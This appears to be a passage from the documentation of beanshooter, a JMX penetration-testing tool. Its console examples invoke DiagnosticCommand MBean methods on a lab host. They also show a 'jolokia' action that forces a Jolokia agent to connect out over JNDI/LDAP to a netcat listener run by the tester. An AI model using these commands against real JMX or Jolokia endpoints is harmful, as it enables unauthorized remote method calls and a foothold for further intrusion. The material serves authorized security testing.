 ```console
[qtc@devbox ~]$ beanshooter invoke 172.17.0.2 1090 com.sun.management:type=DiagnosticCommand --signature 'vmVersion()'
OpenJDK 64-Bit Server VM version 11.0.14.1+1
JDK 11.0.14.1
```

When invoking a method that requires parameters, the specified *beanshooter* arguments are evaluated as *Java code*. Simple argument
types like integers or strings can just be passed by specifying their corresponding value. Complex argument types can be constructed
as you would do it in *Java* (e.g. `'new java.util.HashMap()'`). The following listing shows an example, where the `help(String[] args)`
method is invoked on the `DiagnosticCommand` *MBean*:

```console
[qtc@devbox ~]$ beanshooter invoke 172.17.0.2 1090 com.sun.management:type=DiagnosticCommand --signature 'help(String[] args)' 'new String[] { "Compiler.directives_add" }'
Compiler.directives_add
Add compiler directives from file.

Impact: Low

Permission: java.lang.management.ManagementPermission(monitor)

Syntax : Compiler.directives_add  <filename>

Arguments:
    filename :  Name of the directives file (STRING, no default value)
```

For more complex argument types that require some initialization, you can use *beanshooters PluginSystem* and define a custom
class that implements the [IArgumentProvider Interface](beanshooter/src/de/qtc/beanshooter/plugin/IArgumentProvider.java).


#### Jolokia

As outlined in *beanshooters* [Jolokia documentation](/docs/jolokia.md), almost all *beanshooter* actions can be used together
with the `--jolokia` switch to target *Jolokia* based *JMX* endpoints. Apart from this generic support for the *Jolokia JMX*
adapter, *beanshooter* supports one dedicated `jolokia` action. This action can be used to force an outbound connection of a
*Jolokia* agent running with proxy mode enabled:

```console
[qtc@devbox ~]$ beanshooter jolokia 172.17.0.2 8080 172.17.0.1 4444 --username manager --password admin --ldap
[+] Attempting to trigger outboud connection to 172.17.0.1:4444
[+] Using proxy service URL: service:jmx:Rmi:///jndi/ldap://172.17.0.1:4444/beanshooter
...

[qtc@devbox ~]$ nc -vlp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:60052.
0
```
